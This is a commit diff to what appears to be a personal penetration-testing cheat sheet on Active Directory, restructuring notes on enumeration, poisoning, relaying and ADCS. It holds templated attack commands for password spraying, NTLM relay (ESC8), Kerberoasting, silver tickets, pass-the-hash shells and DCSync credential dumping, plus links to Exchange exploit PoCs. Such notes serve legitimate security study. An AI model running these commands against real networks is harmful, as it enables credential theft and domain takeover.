

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADExploitation.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
finished with AD notes changing

```diff
--- a/markdown/ADExploitation.md
+++ b/markdown/ADExploitation.md
@@ -13,117 +13,63 @@
     - `python3 -m venv pipenv`, `source pipenv/bin/activate`, and `pip install impacket`
   - Tools like petitpotam will now be able to reference the impacket library within the venv
 
-**Enumeration with PowerShell and .NET Classes**
-- LDAP is the communication channel that AD uses to query things
-	- If a domain machine searches for a printer, the search query uses LDAP
-	- `LDAP://{Hostname}:{port}/{/DN}`
-	- LdapDomainDump - outputs to a pretty HTML page
-		- `sudo ldapdomaindump ldaps://{IP} -u '{username}' -p '{password}'`
+## Automatic Enumeration
+**Enum4Linux-ng**
+- [https://github.com/cddmp/enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
+- Performs a bunch of checks on multiple services, like RPC, LDAP, and SMB
+- Unauthenticated: `enum4linux-ng {IP}`
+  - Interesting options: `-U` for user enum, `-o` for OS info, `-S` for shares, `-L` for additional domain info (on DCs), `-P` for password policy info, `-I` for printer info
+- With credentials: `enum4linux-ng -u {username} -p {password} -w {domain} {target_IP}`
+  - Domain not usually necessary since it'll figure it out
+  - `-K {ticket_file}` to auth using a Kerberos ticket (DNS must be set up)
+  - `-H {NTHASH}` to pass a hash
+  - `--local-auth` for local authentication
+**PingCastle**
+- `Pingcastle.exe --healthcheck --server {domain}` from the Windows side
+
+## Service Enumeration
+**SMB**
+- Indicated by ports 139, 445
+- `nxc smb {IP} -u {username} -p {password}`
+  - Some useful flags:
+    - `--shares` for share enumeration, `--rid-brute 3000` or `--users` for user enum, `--pass-pol` for password policy
+  - Can also execute commands with `-X 'powershell -e ...'`
+- `smbclient -L //{ip}/ -N` for anonymous (username of anonymous and no password), or `-U '{domain}/{username}%{password}` for credentials
+  - `recurse ON` to recursively list files
+  - Check inside SYSVOL `policies/{guid}/machine/preferences/groups` for a group policy password
+    - If found, decode with `gpp-decrypt`
+  - To remove null bytes: `tr -d '\000' < input_file > output_file`
+**LDAP**
+- Indicated by ports 389, 636
 - Checking for anonymous LDAP bind
 	- `ldapsearch -x -H ldap://{IP} -b "dc={domain},dc={TLD}"`
+	- With credentials: `ldapsearch -D '{user}@{user_domain}' -w '{user_password}' -p 389 -h {IP} -b "dc={target_domain},dc={tld}"`
 	- This can yield a ton of information, such as users on the system
 		- `ldapsearch -x -H ldap://{IP} -b "dc={domain},dc={tld}" "(objectClass=person)"`
-		- [More info](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)
+    		- [More Hacktricks info](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)
 		- Users can have custom fields added, so check each user/group for passwords
 			- `| grep -iE "pass|pwd|secret|cred|auth|token|key"`
 			- If we find anonymous ldap bind, slowing down for 5-10 mins and just processing the entire output could be nice
-	- Checking lockout policy: `ldapsearch -D '{user}@{user_domain}' -w '{user_password}' -p 389 -h {IP} -b "dc={target_domain},dc={tld}" -s sub "*" | grep lockoutThreshold`
-- Distinguished names (DNs)
-	- Uniquely identifies domain objects
-	- `CN={obj_name},CN={container},DC={domain_component1},DC={domain_component1}`
-		- `CN=Stephanie,CN=Users,DC=corp,DC=com`
-
-
-
-## Manual Enumeration
-- `PsLoggedOn.exe` - uses Remote Registry service to enumerate registry keys to see who's logged on to a system
-	- Not enabled by default on workstations since Windows 8, but it enabled by default on servers like 2012, 2016, 2019, and 2022
-	- Usage: `.\PsLoggedOn.exe \\{computer name}`
-	- If we found from `Find-LocalAdminAccess` that we have Admin access to a machine where another user is logged on, we should be able to take their hashes
-- Enumerating SMB
-	- `smbclient` is great for listing/connecting to smb shares
-		-  List smb shares: `smbclient -N -L //{domain}/ -I IP`
-		- Connect to smb share: `smbclient -N //{domain}/{share} -I {IP}`
-			- With creds: `smbclient //{IP}/{share} -U {username}%{password}`
-		- To remove null bytes: `tr -d '\000' < input_file > output_file`
-	- With credentials, enumerate all shares with crackmapexec (shown below)
-- Enumerating Service Accounts
-	- Service accounts are services launched by the system
-	- They're assigned a Service Principal Name (SPN) which associates the service to a service account in AD
-	- `setspn.exe` is installed by default on Windows
-		- `setspn -L iis_service`
-		- `Get-NetUser -SPN` will also list the service users
-- Can use `crackmapexec` to enumerate shares/users/groups
-	- `crackmapexec smb {IP} -u {username} -p {password} --shares`
-	- `nxc smb {IP} -u {username} -p {password} --rid-brute 3000`
-	- Anonymous logon would be username `anonymous` and empty password
-	- To enumerate everything:
-		- `crackmapexec smb {IP} -u {username} -p {password} --all`
-
-## Automatic Enumeration
-
-**Enum4Linux**
-- Just run `enum4linux {IP}`
-
-
-
-## Poisoning/Relaying/Coercing
-- Poisoning is often your best friend on internals
-- Run `sudo responder -I {network_interface}` to capture auth information
-  - Can try to crack NTLMv2 hash
-  - Can also relay it onwards to a server that doesn't have SMB signing
-    - If done, make sure to disable responder's SMB and HTTP servers in `/etc/responder/Responder.conf` since they both try to use SMB and HTTP
-- If the credentials can't be cracked, pair responder up with `ntlmrelayx`
-  - `impacket-ntlmrelayx -t {protocol_like_ldap}://{dc_ip}`
-    - `smb` can give different errors and depends on signing
-    - `-c "{command}"` will execute a command as the user
-- Can check for available coercion methods with `nxc smb {IP} -M coerce_plus -o LISTENER={kali_IP}`
-  - This is better with credentials; can check for more methods (`-u {domain}\{user}` and `-p {password}`)
-- Petitpotam
-  - Uses `EfsRpcOpenFileRaw` to convince the DC to open a file at `\\attacker_share\share`, thus causing the DC to authenticate to us
-  - We can capture the credential using impacket's `smbserver` to try and crack it, but this is pretty unlikely to work due to the randomized passwords
-    - `smbserver.py loot $(pwd) -smb2support` will host a share on our IP called `loot`
-    - Instead, we should relay them on with impacket's `ntlmrelayx` or `certipy`
-  - ESC8 relay example:
-    - Run `python PetitPotam.py {kali_IP} {vulnerable_DC_IP}` to get the server to authenticate to us
-      - Sometimes petitpotam won't work for unauthenticated users, thus `-u {user} -p {password} -d {domain}` can be used
-      - PetitPotam won't capture the credentials on its own, thus:
-    - Use `ntlmrelayx.py -t http://{target_DC_IP}/certsrv/certfnsh.asp -smb2support --adcs --template 'DomainController'` to relay the auth to the target
-      - Can also use `--template 'DomainController'`
-
-
-## RPC
--
-
-## SMB
-- `nxc smb {IP} -u {username} -p {password}`
-  - Some useful flags:
-    - `--shares` for share enumeration, `--rid-brute 3000` or `--users` for user enum, `--pass-pol` for password policy
--
-- `smbclient -L //{ip}/ -N` for anonymous (username of anonymous and no password), or `-U 'domain/username` for credentials
-  - `recurse ON` to recursively list files
-  - Check inside SYSVOL `policies/{guid}/machine/preferences/groups` for a group policy password
-    - If found, decode with `gpp-decrypt`
-
-## Getting execution with credentials or hashes
-- Shells:
-  - 135 - use `wmiexec.py -hashes :{hash} '{domain}/{user}@{ip}'`
-  - 139/445 - use `psexec.py -hashes :{hash} '{domain}/{user}@{ip}'` or `smbexec`
-  - 593 - use `atexec.py -hashes :{hash} '{domain}/{user}@{ip}' "{command}"`
-  - 3389 - user `xfreerdp /u:{user} /d:{domain} /pth:{hash} /v:{IP}`
-    - `/p:{password}` if we have it
-  - 5985 - use `evil-winrm -i {IP} -u '{domain}\{username}' -H {hash} -r {domain}`
-    - `-r` optional, used for kerberos
-
-
-
+	- Checking lockout policy: `-b "dc={target_domain},dc={tld}" -s sub "*" | grep lockoutThreshold`
+- LdapDomainDump - outputs to a pretty HTML page
+  - `sudo ldapdomaindump ldaps://{IP} -u '{domain}\{username}' -p '{password}'`
+**RPC**
+- Indicated by ports 135, 593
+- Can get an RPC shell with `rpcclient -U {username} {IP}`
+  - `enumdomusers` can get the domain users from within RPC, which we can then check again for preauth
+  - `queryuser {username}` to get user properties (passwords could be in descriptions)
+    - Can also just `querydispinfo`
+  - Could also have a null session (basically allowing anonymous users to connect and query info)
+    - `enum4linux-ng` will check for this, among much else
+    - `rpcclient -U "" {IP} -N`
 **Exchange**
+- Indicated by ports 110, 143, 587, 993, 995
 - Can run `proxyshell_rce.py -u https://{exchange_endpoint} -e administrator@{domain}` from an unauthed perspective
-  -
+  - PoC: [https://github.com/dmaasland/proxyshell-poc](https://github.com/dmaasland/proxyshell-poc)
 - Can run `poc_aug3.py {IP} {username} {password} {command}`
   - PoC: [https://github.com/testanull/ProxyNotShell-PoC](https://github.com/testanull/ProxyNotShell-PoC)
 
-## BloodHound/SharpHound
+## Enumerating the Domain with BloodHound/SharpHound
 - Capturing the system data with SharpHound:
 	- [SharpHound](https://github.com/SpecterOps/SharpHound/releases/latest)
 		- Confirmed version 1.1.1 for kali's default 4.3.1 bloodhound (legacy)
@@ -181,36 +127,17 @@
 
 **Password Spraying**
 - Avoiding lockout - `net accounts` will show authentication lockout information
-- Using [script enumeration](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/modules/Spray-Passwords.ps1)
-	- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admin`
+- Using [Spray-Passwords.ps1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/modules/Spray-Passwords.ps1) for password enumeration on Windows side
+	- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admins`
 - SMB password spraying
-	- Use `crackmapexec`
-		- `crackmapexec smb {IP_with_smb} -u users.txt -p passwords.txt -d {domain} --continue-on-success`
-			- Can also pass single username/password
-		- This sprays passwords against a single IP's SMB share
+	- `nxc smb {IP_with_smb} -u users.txt -p passwords.txt -d {domain} --continue-on-success`
 		- This will also show whether the user is an administrator
-	- SMB hash spraying
-		- `crackmapexec smb {IP} -u {users.txt} -H {hashes.txt}`
-	- Crackmapexec can also run comands via SMB:
-		- `nxc smb {IP} -u {username} -p {password} -X 'powershell -e ...`
+    	- SMB hash spraying with `nxc smb {IP} -u {users.txt} -H {hashes.txt}`
 - Obtaining TGTs
 	- Use [kerbrute](https://github.com/ropnop/kerbrute/releases/) - `.\kerbrute_windows_amd64.exe passwordspray -d {domain} .\usernames.txt "{password}"`
 	- AS-REP Roasting without credentials, described below
-- WinRM
-	- Indicated by port 5985/5986
-	- `evil-winrm -i {IP} -u '{domain}\{domain_user}' -p '{password}'`
-	- Also accepts NTLM hashes `evil-winrm -i {IP} -u {user} -H {hash}`
-- RPC:
-	- Indicated by port 135,593
-	- Can get an RPC shell with `rpcclient -U {username} {IP}`
-		- `enumdomusers` can get the domain users from within RPC, which we can then check again for preauth
-		- `queryuser {username}` to get user properties (passwords could be in descriptions)
-			- Can also just `querydispinfo`
-	- Could also have a null session (basically allowing anonymous users to connect and query info)
-    	- `enum4linux` will check for this
-    	- `rpcclient -U "" {IP} -N`
 
-## AS-REP Roasting
+**AS-REP Roasting**
 - Requires that Kerberos preauth is disabled, which prevents sending an AS-REQ on behalf of any user
 - Performing hash cracking after receiving the AS-REP from the KDC
 - Performed with `impacket-GetNPUsers` on kali side
@@ -228,7 +155,7 @@
   - Exploit: https://github.com/Bdenneu/CVE-2022-33679/tree/main
     - `CVE-2022-33679.py {domain}/{user} {target_IP}`
 
-## Kerberoasting
+**Kerberoasting**
 - Cracking the password of the service account by using the encrypted SPN password hash used on the service ticket
 - Can use `impacket-GetUserSPNs` if remote with creds
 	- `impacket-GetUserSPNs {domain}/{user}:{password} -dc-ip {IP} -request`
@@ -236,7 +163,7 @@
 	- `.\Rubeus.exe kerberoast /outfile:hash.txt`
 - Can crack with Hashcat's 13100 mode
 
-## Silver Tickets
+**Silver Tickets**
 - Forging our own service tickets via a password hash that should only be known to the DC and service account
 	- This requires that Privileged Account Certificate (PAC) be disabled, which it often is
 - To create the ticket, we need:
@@ -247,23 +174,72 @@
 	- Don't escalate privileges to system
 	- `kerberos::golden /sid:{sid} /domain:{domain} /ptt /target:{server_name} /service:{service_protocol_like_http} /rc4:{NTLM_hash} /user:{any_domain_user}`
 		- `ptt` allows us to inject forged ticket into memory of target machine
-- Then, we should be able to access the service with the following:
-	- `iwr -UseDefaultCredentials {protocol}://{server_name}`
+- Then, we should be able to access the service. For example, `iwr -UseDefaultCredentials {protocol}://{server_name}` to view a webserver
 
-## Domain Controller Synchronization
-- Sometimes there are multiple DCs across an environment for redundancy
-  - These DCs use Directory Replication Service (DRS) to synchronize
-  - DCs receiving requests for updates don't check if the request came from a known DC and only verify that the SID has the correct privileges
-  	- This means that we just need a user with the correct privileges
-  	- *Required privileges*: Replicating Directory Changes, Replicating Directory Changes All, Replicating Directory Changes in Filtered Set
-  		- Owned by Domain Admins, Enterprise Admins, and Administrators by default
-    - If we have `WriteDACL` on the domain via a group, we can give ourselves the necessary permissions
-- Performed with `mimikatz` on domain-joined machine
-	- This gives us a way to get the hash of any domain user
-	- `lsadump::dcsync /user:{domain}\{user}`
-- Can also be performed with `impacket-secretsdump` on kali
-	- `impacket-secretsdump -just-dc-user {target_domain_user} {domain}/{admin_username}:"{password}"@{DC_IP}`
-	- `impacket-secretsdump -hashes :{NTLM_hash} {domain}/{user}@{DC_IP}`
+## Poisoning, Coercing, and Relaying
+**Poisoning**
+- Poisoning is often your best friend on internals
+  - Responder
+    - Run `sudo responder -I {network_interface}` to capture auth information
+      - Can try to crack NTLMv2 hash
+      - Can also relay it onwards to a server that doesn't have SMB signing
+        - If done, make sure to disable responder's SMB and HTTP servers in `/etc/responder/Responder.conf` since they both try to use SMB and HTTP
+  - Mitm6
+    - Windows prefers IPv6 to IPv4 by default, and will send out IPv6 configuration requests regularly
+    - `mitm6` responds to these requests and can work with `ntlmrelayx`
+      - Need `-6` option with `ntlmrelayx` so it will listen for IPv6
+      - This can be dangerous as it doesn't necessarily intercept requests that are going to fail (like Responder intercepting a misspelled DNS request)
+    - `mitm6 -d {domain}`
+      - Doesn't need an interface as the tool will automatically detect which interface to listen on
+**Coercing**
+- Can check for available coercion methods with `nxc smb {IP} -M coerce_plus -o LISTENER={kali_IP}`
+  - This is better with credentials; can check for more methods (`-u {domain}\{user}` and `-p {password}`)
+- Petitpotam
+  - Uses `EfsRpcOpenFileRaw` to convince the DC to open a file at `\\attacker_share\share`, thus causing the DC to authenticate to us
+  - We can capture the credential using impacket's `smbserver` to try and crack it, but this is pretty unlikely to work due to the randomized passwords
+    - `smbserver.py loot $(pwd) -smb2support` will host a share on our IP called `loot`
+    - Instead, we should relay it on with impacket's `ntlmrelayx` or `certipy`
+  - Sometimes it won't work for unauthenticated users, thus `-u {user} -p {password} -d {domain}` can be used
+**Relaying**
+- If the credentials can't be cracked, pair responder up with `ntlmrelayx`
+  - `ntlmrelayx.py -t {protocol_like_ldaps}://{dc_ip}`
+    - `smb` can give different errors and depends on signing, which is why we used ldap
+    - `-c "{command}"` will execute a command as the user
+    - `--interactive` can drop us into an LDAP shell
+    - Use `--remove-mic` with LDAP to downgrade NTLM's Message Integrity Check
+    - `-6` for listening for IPv6 with `mitm6`
+- Kerberos relay with `krbrelayx.py`
+  - [https://github.com/dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)
+  - Not like traditional relaying, since tickets and service keys are cryptographically bound together
+  - If a user has `unconstrained delegation`, we can use this to pivot
+    - A client authenticating to a service with unconstrained delegation allows forwarding of the full TGT, meaning we can impersonate the user to any other service
+  - Abuse workflow (outlined [here](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/))
+
+## Getting execution with credentials or hashes
+- Shells:
+  - 135 - use `wmiexec.py -hashes :{hash} '{domain}/{user}@{ip}'`
+  - 139/445 - use `psexec.py -hashes :{hash} '{domain}/{user}@{ip}'` or `smbexec.py`
+  - 593 - use `atexec.py -hashes :{hash} '{domain}/{user}@{ip}' "{command}"`
+  - 3389 - user `xfreerdp /u:{user} /d:{domain} /pth:{hash} /v:{IP}`
+    - `/p:{password}` if we have it
+  - 5985 - use `evil-winrm -i {IP} -u '{domain}\{username}' -H {hash} -r {domain}`
+    - `-r` optional, used for kerberos
+
+## ADCS
+- Certify
+  - Run on the Windows side
+  - [https://github.com/GhostPack/Certify](https://github.com/GhostPack/Certify)
+    - Requires compilation, unless we want to use [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/dotnet%20v4.8.1%20compiled%20binaries/Certify.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/dotnet%20v4.8.1%20compiled%20binaries/Certify.exe)
+  - `Certify.exe find /vulnerable`
+- certipy
+  - `certipy find -u {user}@{domain} -p {password} -dc-ip {dc_ip}`
+  - This will identify if any certificate authorities are vulnerable to ESC1 through ESC16
+    - If they are, refer to [Orange Cyberdefense's mindmap](https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg) for exploitation details on each
+  - ESC8 relay example:
+    - `python PetitPotam.py {kali_IP} {vulnerable_DC_IP}` causes the DC to authenticate to us
+    - Use `ntlmrelayx.py -t http://{target_DC_IP}/certsrv/certfnsh.asp -smb2support --adcs --template '{vuln_template_name}'` to relay the auth to the target
+      - `--template` just specifies the template name we're user from the vulnerable CA
+
 
 ## SCCM
 **Recon**
@@ -271,8 +247,22 @@
   - Also worth running `nxc smb` on the sccm server: `mxc smb {sccm_ip} -u {username} -p {password} -d {domain} --shares
 - `pxethief.py 2 {sccm_ip}` can also yield results
 **Exploitation**
-- Not much experience here, but refer to [Orange Cyberdefense's mind-map](https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg)
+- Not much experience here, but refer to [Orange Cyberdefense's mindmap](https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg)
 - Based on the credential level access we have, we can perform a number of different attacks
 
 ## Miscellaneous
 - [Group3r](https://github.com/Group3r/Group3r) is a good tool to auto-enum group policy misconfigs
+- **Abusing Domain Controller Synchronization**
+  - Sometimes there are multiple DCs across an environment for redundancy
+    - These DCs use Directory Replication Service (DRS) to synchronize
+    - DCs receiving requests for updates don't check if the request came from a known DC and only verify that the SID has the correct privileges
+    	- This means that we just need a user with the correct privileges
+    	- *Required privileges*: Replicating Directory Changes, Replicating Directory Changes All, Replicating Directory Changes in Filtered Set
+    		- Owned by Domain Admins, Enterprise Admins, and Administrators by default
+      - If we have `WriteDACL` on the domain via a group, we can give ourselves the necessary permissions
+  - Performed with `mimikatz` on domain-joined machine
+  	- This gives us a way to get the hash of any domain user
+  	- `lsadump::dcsync /user:{domain}\{user}`
+  - Can also be performed with `impacket-secretsdump` on kali
+  	- `impacket-secretsdump -just-dc-user {target_domain_user} {domain}/{admin_username}:"{password}"@{DC_IP}`
+  	- `impacket-secretsdump -hashes :{NTLM_hash} {domain}/{user}@{DC_IP}`
```
Also changed, not shown: markdown/ADInformation.md (+4 -0 lines), markdown/Internals.md (+2 -1 lines).
